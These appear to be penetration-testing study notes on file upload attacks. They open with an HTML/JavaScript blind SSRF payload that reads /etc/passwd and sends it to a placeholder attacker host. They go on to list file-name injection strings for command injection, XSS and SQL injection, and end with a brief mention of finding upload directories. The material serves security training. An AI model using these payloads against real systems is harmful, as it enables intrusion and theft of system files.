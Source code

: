 ```html
<html>
    <body>
        <b>Exfiltration via Blind SSRF</b>
        <script>
        var readfile = new XMLHttpRequest(); 
        var exfil = new XMLHttpRequest(); 
        readfile.open("GET","file:///etc/passwd", true); 
        readfile.send();
        readfile.onload = function() {
            if (readfile.readyState === 4) {
                var url = 'http://<SERVICE IP>:<PORT>/?data='+btoa(this.response);
                exfil.open("GET", url, true);
                exfil.send();
            }
        }
        readfile.onerror = function(){document.write('<a>Oops!</a>');}
        </script>
     </body>
</html>
```


## Injections in File Name


-A common file upload attack uses a malicious string for the uploaded file name, which may get executed or processed if the uploaded file name is displayed (i.e., reflected) on the page.


##### Command injection
-if we name a file file$(whoami).jpg or file \`whoami\`.jpg or file.jpg||whoami  
-then the web application attempts to move the uploaded file with an OS command (e.g. mv file /tmp),


##### XSS 
-payload in the file name (e.g. <script>alert(window.origin);</script>), which would get executed on the target's machine if the file name is displayed to them.

##### SQL injection
-We may also inject an SQL query in the file name (e.g. file';select+sleep(5);--.jpg), which may lead to an SQL injection if the file name is insecurely used in an SQL query.




## Upload Directory Disclosure

##### fuzzing to look for the uploads directory or even use other vulnerabilities (e.g., LFI/XXE)


##### Web servers often use the filename field in multipart/form-data requests to determine the name and location where the file should be saved

